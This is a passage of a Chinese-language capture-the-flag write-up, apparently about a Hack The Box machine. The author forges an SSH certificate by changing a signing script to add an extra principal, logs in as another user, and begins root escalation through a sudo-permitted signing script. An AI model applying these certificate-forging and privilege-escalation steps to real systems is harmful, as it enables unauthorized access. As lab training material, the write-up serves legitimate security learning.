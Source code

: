 在**/etc/ssh/auth_principals**文件夹中，可以知道**zzinter**用户可以使用**zzinter_temp ca**登录。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKtrPvMkfX7NNhPbrmz4WOI7ywO9oyEkR3Fmwszfh0xPQOr2TAlxkHgyg/640?wx_fmt=png "")  
  
             
  
使用上面的方法，本来是想直接使用curl请求，但是我无论怎么尝试**curl**请求都是返回错误。  
        
  
在靶机中：  
  
将**/home/zzinter/sign_key_api.sh**复制到**/tmp/sign.sh**  
```
cp /home/zzinter/sign_key_api.sh /tmp/sign.sh         
```  
  
  
修改sign.sh，在限制的字段中加入zzinter_temp  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKtHUf6NIUYQCU6pS64894nlq1WMf4A88ljCm0zPvAPEqjQIofHuzCpng/640?wx_fmt=png "")  
  
  
在靶机中执行如下命令  
```
ssh-keygen -t rsa -C zzinter@ssg.htb -f zzintertemp    
./sign.sh zzintertemp.pub zzinter zzinter_temp > zzintertemp-cert.pub
chmod 777 /tmp/zzintertemp*
```  
  
          
  
**kali中：**  
```
scp msainristil@ssg.htb:/tmp/zzintertemp* .
chmod 700 zzintertemp*
ssh -i zzintertemp -p 2222 zzinter@ssg.htb
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKtoexPoERVq9EDdB8q8eEFvRiaU6sFDIFdZLWIn5heEKbodrds1f8D8Kw/640?wx_fmt=png "")  
  
             
  
**0007.root权限**  
  
通过查找，在**/opt**文件夹下找到**sign_key.sh**文件。  
  
使用**sudo -l**可以发现**zzinter**用户不需要密码就可以执行**sign_key.sh。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKtoKrFUTRBsqkicicbvDXnaTRAjMicPiaf8icPRBpfZtzic8DUoNKt2sgX2jQg/640?wx_fmt=png "")  
  
             
  
sign_key代码如下：  
```
#!/bin/bash

usage () {
    echo "Usage: $0"
    exit 1
}

if [ "$#" -ne 5 ]; then
    usage
fi

ca_file="$1"
public_key_file="$2"
username="$3"
principal="$4"
serial="$5"

if [ ! -f "$ca_file" ]; then
    echo "Error: CA file '$ca_file' not found."
    usage
```